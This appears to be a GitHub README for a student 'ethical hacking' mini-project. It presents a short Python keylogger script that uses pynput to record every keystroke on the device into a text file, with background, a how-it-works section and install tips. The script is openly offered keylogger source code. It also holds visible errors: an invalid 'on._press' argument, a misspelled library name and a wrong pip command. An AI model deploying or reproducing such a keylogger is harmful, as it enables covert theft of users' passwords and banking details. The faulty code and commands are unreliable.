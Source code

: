 # Keylogger-Python &nbsp; <img src="https://github.com/user-attachments/assets/fa080d46-0f3c-4c19-a3fb-6324e1b6cdf5" width="36">

## Background and Significance 🔍
Keylogging is the method of storing key-strokes on a device, particularly without the user knowing. Having a program such as this running on your device will result in the unaware surrendering of confidential data to malicious hackers, including login credentials and banking details.

## Objective 🥅
This mini-project aims to create a successful key-logging script, that when executed, will capture keystrokes made by the user in any environment on the device and store them in a text file automatically for viewing. This project therefore demonstrates the basics of keylogging, highlighting the dangers of this simple technique.

## Skills Learned and Improved ✅
- Learning this attacking technique strengthened my ethical hacking fundamentals.
- Increased cybersecurity awareness surrounding even simple malicious methods.
- Honing my Python skills.

## Tools/Languages Used 🔨
- VSCode
- Python

## Script 📜
<code>
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error: Character could not be obtained.")

if __name__ == "__main__":
    listener = keyboard.Listener(on._press=keyPressed) 
    listener.start()
    input()
</code>

## How it Works ❓
1. Keystrokes are listened for using pynut library
2. When this script is executed, these keystrokes are then appended to a file (keyfile.txt) and also appear in the terminal. Example shown below:

<img width="649" alt="keylogger screenshot" src="https://github.com/user-attachments/assets/1944e555-febe-4dd1-940d-3681d8293419" />


   
## Tips & Resources ✍️📖
### Tips
- Install pynput library first! You can use either 'py -m install pynput' or 'pip install pynput' in the terminal

### Resources
- Keylogging Python Tutorial by <strong> Shaun Halverson </strong>: <href> https://www.youtube.com/watch?v=mDY3v2Xx-Q4 </href>
